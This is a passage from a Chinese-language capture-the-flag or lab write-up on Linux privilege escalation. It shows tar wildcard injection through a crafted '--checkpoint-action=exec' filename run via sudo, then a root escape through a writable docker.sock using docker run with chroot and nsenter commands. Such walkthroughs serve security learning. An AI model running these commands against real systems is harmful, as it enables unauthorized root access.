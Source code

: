     - `echo a > '--checkpoint-action=exec=sh script.sh'`
    - echo whoami > script.sh
    - ![](https://i.imgur.com/iJOCoN4.png)
    - 用 賣口權限執行
        - `sudo -u michael /opt/backups/backup.sh`
        - 發現可以成功!!!
        - ![](https://i.imgur.com/bdQQ18p.png)
- 切換到賣口
    - `echo bash > script.sh`
    - ![](https://i.imgur.com/iVUL3es.png)
## 二次提權
- 再一次 Linpeas
    - ![](https://i.imgur.com/f2G9B5Q.png)
- 發現 `/var/run/docker.sock` 可以寫入
    - ![](https://i.imgur.com/efcmkQI.png)
    - 直接給我們 Exploit 教學ㄌ，好棒
        - https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket
- 觀察目前有使用的 docker image
    - ![](https://i.imgur.com/iEs6uIO.png)
- 修改一下 image 的名字，使用 hacktricks 上面的 exploit 教學
    - `docker -H unix:///var/run/docker.sock run -v /:/host -it nginx chroot /host /bin/bash`
    - `docker -H unix:///var/run/docker.sock run -it --privileged --pid=host nginx nsenter -t 1 -m -u -n -i sh`
        - 創建 privileged 康天呢
- 提權成功
    - ![](https://i.imgur.com/SNmNk2S.png)
